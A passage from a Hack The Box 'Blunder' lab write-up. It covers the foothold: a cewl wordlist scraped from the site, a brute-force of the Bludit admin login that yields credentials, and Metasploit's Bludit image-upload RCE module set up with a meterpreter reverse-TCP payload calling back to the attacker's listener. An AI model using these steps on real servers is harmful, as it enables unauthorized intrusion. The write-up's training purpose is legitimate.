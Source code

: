 #### Foothold

Time to analyse what information we have gathered so far. First a username `fergus`, Second a `metasploit exploit module` for bludit that can give us `RCE` but needs authentication creds. Also the note in website’s about section `I created this site to dump my fact files, nothing more.......?`, so it can be assumed we need to brute force creds of user `fergus` and the password might be any word in the website as it is to dump fact files of the user. _NGL.. I had a hard time figuring out that we need the wordlist created from the website to bruteforce._

Creating the wordlist.
{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Blunder_Rooted]
└──╼ $cewl http://10.10.10.191 > wordlist.txt
{% endhighlight %} 

Bruteforcing the /admin page using the creds will give us the creds `fergus:RolandDeschain`.<br>
Now let’s use `metasploit` to get a shell on the box. _You can also do it manually exploit but I was a beginner when I did this box first time so I used metasploit for it._

Finding the exploit

{% highlight bash %}
msf6 > search bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
{% endhighlight %} 

Now you can use `show exploit` to list all options in the exploit, we need to set bludit’s user and password, it can be simply done by `set BLUDITUSER fergus` and `set BLUDITPASS RolandDeschain`. Similarly set the value of RHOST, LHOST and LPORT. _My configuration looked like this after setting the values._

{% highlight bash %}
Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.10      yes       The listen address (an interface may be specified)
   LPORT  9889             yes       The listen port
[Redacted]
{% endhighlight %} 
